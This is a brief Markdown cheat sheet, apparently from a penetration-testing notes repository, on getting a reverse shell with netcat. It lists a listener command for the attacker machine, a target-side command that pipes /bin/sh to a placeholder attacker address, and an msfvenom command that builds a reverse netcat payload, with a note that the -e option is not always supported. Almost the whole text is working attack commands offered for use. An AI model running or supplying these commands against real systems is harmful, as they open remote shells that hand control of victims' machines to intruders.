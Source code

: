 # NetCat 
***

## Attacker Machine
```
rlwrap nc -nlvp 7777
```

## Target Machine
```
nc -e /bin/sh attacker_IP 7777
```

## Using Msfvenom
```
msfvenom -p cmd/unix/reverse_netcat LHOST=IP LPORT=7777 R
```

### Notes
- The issue at hand is that netcat is not universally installed on all servers, and even when it is, not every version of netcat supports the -e option.
